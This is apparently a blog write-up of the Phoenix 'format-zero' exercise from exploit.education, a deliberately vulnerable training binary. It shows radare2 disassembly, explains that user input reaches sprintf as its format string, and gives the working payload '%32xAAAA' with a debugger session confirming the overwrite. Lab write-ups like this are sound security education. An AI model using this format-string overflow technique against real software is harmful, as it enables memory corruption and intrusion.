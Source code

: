 ```yaml
---
layout: post
title:  "Phoenix x86 Format Zero"
date: "2019-10-16 18:21:00 +0300"
categories: exploit-education phoenix x86
---
```


This series of format levels is all about exploiting format strings and the first level introduces a simple format string vulnerability.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/format-zero 
arch     x86
baddr    0x8048000
binsz    3736
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

It seems that the binary doesn't differ from the ones of the previous levels.

{% highlight shell %}
$ r2 /opt/phoenix/i486/format-zero 
{% endhighlight %}

{% highlight shell %}
[0xf7ee6d4b]> aas
Cannot analyze at 0x08048620
[0xf7ee6d4b]> afl
0x0804831c    1 17           sym._init
0x080484f0    7 277  -> 112  sym.frame_dummy
0x080485e0    5 49           sym.__do_global_ctors_aux
0x08049878    1 1924         obj.stdin
0x08048611    1 12           sym._fini
0x08048470    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   54 556  -> 674  sym..interp
0x080483a0    1 62           entry0
0x08048390    1 6            sym.imp.__libc_start_main
0x08048708    1 14           loc.__GNU_EH_FRAME_HDR
0x08048724    3 34           sym..eh_frame
0x08049798    1 2145         obj._DYNAMIC
0x08048760    1 10           obj.__EH_FRAME_BEGIN
0x080483e0    4 49   -> 40   sym.deregister_tm_clones
0x0804978c    1 4            obj.__CTOR_END
0x08048784    1 4            obj.__FRAME_END
0x08049794    1 2149         obj.__DTOR_END
0x08048535    6 156          main
0x08048350    1 6            sym.imp.puts
0x08048340    1 6            sym.imp.fgets
0x08048360    1 6            sym.imp.errx
0x08048370    1 6            sym.imp.sprintf
0x08048380    1 6            sym.imp.exit
[0xf7ee6d4b]> s main
[0x08048535]> pdf
/ (fcn) main 156
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_3ch @ ebp-0x3c
|           ; var int32_t var_2dh @ ebp-0x2d
|           ; var int32_t var_2ch @ ebp-0x2c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483d4
|           0x08048535      8d4c2404       lea ecx, [arg_4h]
|           0x08048539      83e4f0         and esp, 0xfffffff0
|           0x0804853c      ff71fc         push dword [ecx - 4]
|           0x0804853f      55             push ebp
|           0x08048540      89e5           mov ebp, esp
|           0x08048542      51             push ecx
|           0x08048543      83ec44         sub esp, 0x44
|           0x08048546      83ec0c         sub esp, 0xc
|           0x08048549      6820860408     push str.Welcome_to_phoenix_format_zero__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048620 ; "Welcome to phoenix/format-zero, brought to you by https://exploit.education"
|           0x0804854e      e8fdfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048553      83c410         add esp, 0x10
|           0x08048556      a178980408     mov eax, dword [obj.stdin]  ; obj.__TMC_END
|                                                                      ; [0x8049878:4]=0
|           0x0804855b      83ec04         sub esp, 4
|           0x0804855e      50             push eax
|           0x0804855f      6a0f           push 0xf                    ; 15
|           0x08048561      8d45c4         lea eax, [var_3ch]
|           0x08048564      50             push eax
|           0x08048565      e8d6fdffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x0804856a      83c410         add esp, 0x10
|           0x0804856d      85c0           test eax, eax
|       ,=< 0x0804856f      750f           jne 0x8048580
|       |   0x08048571      83ec08         sub esp, 8
|       |   0x08048574      686c860408     push str.Unable_to_get_buffer ; 0x804866c ; "Unable to get buffer"
|       |   0x08048579      6a01           push 1                      ; 1
|       |   0x0804857b      e8e0fdffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x08048580      c645d300       mov byte [var_2dh], 0
|           0x08048584      c745f4000000.  mov dword [var_ch], 0
|           0x0804858b      83ec08         sub esp, 8
|           0x0804858e      8d45c4         lea eax, [var_3ch]
|           0x08048591      50             push eax
|           0x08048592      8d45d4         lea eax, [var_2ch]
|           0x08048595      50             push eax
|           0x08048596      e8d5fdffff     call sym.imp.sprintf        ; int sprintf(char *s, const char *format, ...)
|           0x0804859b      83c410         add esp, 0x10
|           0x0804859e      8b45f4         mov eax, dword [var_ch]
|           0x080485a1      85c0           test eax, eax
|       ,=< 0x080485a3      7412           je 0x80485b7
|       |   0x080485a5      83ec0c         sub esp, 0xc
|       |   0x080485a8      6884860408     push str.Well_done__the__changeme__variable_has_been_changed ; 0x8048684 ; "Well done, the 'changeme' variable has been changed!"
|       |   0x080485ad      e89efdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x080485b2      83c410         add esp, 0x10
|      ,==< 0x080485b5      eb10           jmp 0x80485c7
|      |`-> 0x080485b7      83ec0c         sub esp, 0xc
|      |    0x080485ba      68bc860408     push str.Uh_oh___changeme__has_not_yet_been_changed._Would_you_like_to_try_again ; 0x80486bc ; "Uh oh, 'changeme' has not yet been changed. Would you like to try again?"
|      |    0x080485bf      e88cfdffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x080485c4      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x80485b5
|      `--> 0x080485c7      83ec0c         sub esp, 0xc
|           0x080485ca      6a00           push 0
\           0x080485cc      e8affdffff     call sym.imp.exit           ; void exit(int status)
[0x08048535]> agf
[0x08048535]>  # int main (int argc, char **argv, char **envp);
    .-----------------------------------------------------------------------------------------.
    |  0x8048535                                                                              |
    | (fcn) main 156                                                                          |
    |   int main (int argc, char **argv, char **envp);                                        |
    | ; var int32_t var_3ch @ ebp-0x3c                                                        |
    | ; var int32_t var_2dh @ ebp-0x2d                                                        |
    | ; var int32_t var_2ch @ ebp-0x2c                                                        |
    | ; var int32_t var_ch @ ebp-0xc                                                          |
    | ; arg int32_t arg_4h @ esp+0x4                                                          |
    | ; DATA XREF from entry0 @ 0x80483d4                                                     |
    | lea ecx, [arg_4h]                                                                       |
    | and esp, 0xfffffff0                                                                     |
    | push dword [ecx - 4]                                                                    |
    | push ebp                                                                                |
    | mov ebp, esp                                                                            |
    | push ecx                                                                                |
    | sub esp, 0x44                                                                           |
    | sub esp, 0xc                                                                            |
    | ; sym..rodata                                                                           |
    | ; 0x8048620                                                                             |
    | ; "Welcome to phoenix/format-zero, brought to you by https://exploit.education"         |
    | push str.Welcome_to_phoenix_format_zero__brought_to_you_by_https:__exploit.education    |
    | ; int puts(const char *s)                                                               |
    | call sym.imp.puts;[oa]                                                                  |
    | add esp, 0x10                                                                           |
    | ; obj.__TMC_END                                                                         |
    | ; [0x8049878:4]=0                                                                       |
    | mov eax, dword [obj.stdin]                                                              |
    | sub esp, 4                                                                              |
    | push eax                                                                                |
    | ; 15                                                                                    |
    | push 0xf                                                                                |
    | lea eax, [var_3ch]                                                                      |
    | push eax                                                                                |
    | ; char *fgets(char *s, int size, FILE *stream)                                          |
    | call sym.imp.fgets;[ob]                                                                 |
    | add esp, 0x10                                                                           |
    | test eax, eax                                                                           |
    | jne 0x8048580                                                                           |
    `-----------------------------------------------------------------------------------------'
            f t
            | |
            | '-------------------------------------.
            |                                       |
            |                                       |
        .----------------------------------.    .-------------------------------------------------.
        |  0x8048571                       |    |  0x8048580                                      |
        | sub esp, 8                       |    | mov byte [var_2dh], 0                           |
        | ; 0x804866c                      |    | mov dword [var_ch], 0                           |
        | ; "Unable to get buffer"         |    | sub esp, 8                                      |
        | push str.Unable_to_get_buffer    |    | lea eax, [var_3ch]                              |
        | ; 1                              |    | push eax                                        |
        | push 1                           |    | lea eax, [var_2ch]                              |
        | ; void errx(int eval)            |    | push eax                                        |
        | call sym.imp.errx;[oc]           |    | ; int sprintf(char *s, const char *format, ...) |
        `----------------------------------'    | call sym.imp.sprintf;[od]                       |
                                                | add esp, 0x10                                   |
                                                | mov eax, dword [var_ch]                         |
                                                | test eax, eax                                   |
                                                | je 0x80485b7                                    |
                                                `-------------------------------------------------'
                                                        f t
                                                        | |
                                                        | '---------------.
    .---------------------------------------------------'                 |
    |                                                                     |
.-----------------------------------------------------------------.   .-------------------------------------------------------------------------------------.
|  0x80485a5                                                      |   |  0x80485b7                                                                          |
| sub esp, 0xc                                                    |   | sub esp, 0xc                                                                        |
| ; 0x8048684                                                     |   | ; 0x80486bc                                                                         |
| ; "Well done, the 'changeme' variable has been changed!"        |   | ; "Uh oh, 'changeme' has not yet been changed. Would you like to try again?"        |
| push str.Well_done__the__changeme__variable_has_been_changed    |   | push str.Uh_oh___changeme__has_not_yet_been_changed._Would_you_like_to_try_again    |
| ; int puts(const char *s)                                       |   | ; int puts(const char *s)                                                           |
| call sym.imp.puts;[oa]                                          |   | call sym.imp.puts;[oa]                                                              |
| add esp, 0x10                                                   |   | add esp, 0x10                                                                       |
| jmp 0x80485c7                                                   |   `-------------------------------------------------------------------------------------'
`-----------------------------------------------------------------'       v
    v                                                                     |
    |                                                                     |
    '--------------------------------------------------------.            |
                                                             | .----------'
                                                             | |
                                                       .-----------------------------------.
                                                       |  0x80485c7                        |
                                                       | ; CODE XREF from main @ 0x80485b5 |
                                                       | sub esp, 0xc                      |
                                                       | push 0                            |
                                                       | ; void exit(int status)           |
                                                       | call sym.imp.exit;[oe]            |
                                                       `-----------------------------------'
{% endhighlight %}

Disassembling the binary gives us the following key takeaways:
* There is a call to `fgets` that saves the input which is read from *STDIN* to a local variable `var_3ch` and restricts the size to 15 bytes.
* There is a call to `sprintf` that takes `var_3ch` as a format string and sends the formatted output to another local variable `var_2ch`.
* The objective is to overwrite the local variable `var_ch`.

As can be seen from the above info, the variable `var_3ch` has a size of 16 bytes considering that the next variable on the stack is `var_2ch` and `0x3c-0x2c=0x10`. The same applies to `var_2ch`, `0x2c-0xc=0x20` which is 32 bytes.

In order to overwrite `var_ch`, `var_2ch` needs to be overflown. To do that, one can simply use the `%x` or `%X` specifier. The aforementioned specifier is used to output unsigned hexadecimal integers. In this case, the output will be sent to `var_2ch` and to overflow it the amount of the specifiers needs to be more than 32. Note that `fgets` restricts the size to 15 bytes and to circumvent that, one can append `32` right after the percentage.

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/format-zero
{% endhighlight %}

{% highlight nasm %}
[0xf7f72d4b]> aas
Cannot analyze at 0x08048620
[0x08048535]> db 0x08048596
[0x08048535]> dc
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32xAAAA
hit breakpoint at: 8048596
[0x08048596]> px/16xw 0xffb4f338-0x3c
0xffb4f2fc  0x78323325 0x41414141 0xf7fa000a 0x00000000  %32xAAAA........
0xffb4f30c  0x080482ec 0x00000000 0x00000000 0x00000000  ................
0xffb4f31c  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffb4f32c  0x00000000 0x00000000 0xffb4f350 0xffb4f3cc  ........P.......
[0x08048596]> px/xw 0xffb4f338-0xc
0xffb4f32c  0x00000000                                   ....
[0x08048596]> dso
hit breakpoint at: 804859b
[0x08048596]> px/16xw 0xffb4f338-0x3c
0xffb4f2fc  0x78323325 0x41414141 0xf7fa000a 0x00000000  %32xAAAA........
0xffb4f30c  0x20202020 0x20202020 0x20202020 0x20202020                  
0xffb4f31c  0x20202020 0x20202020 0x61663766 0x30343138          f7fa8140
0xffb4f32c  0x41414141 0x0000000a 0xffb4f350 0xffb4f3cc  AAAA....P.......
[0x08048596]> px/xw 0xffb4f338-0xc
0xffb4f32c  0x41414141                                   AAAA
[0x08048596]> dc
Well done, the 'changeme' variable has been changed!
{% endhighlight %}

## Conclusion
In this level the user can control the format string of `sprintf` and by having that control, it could lead to stack-based buffer overflow.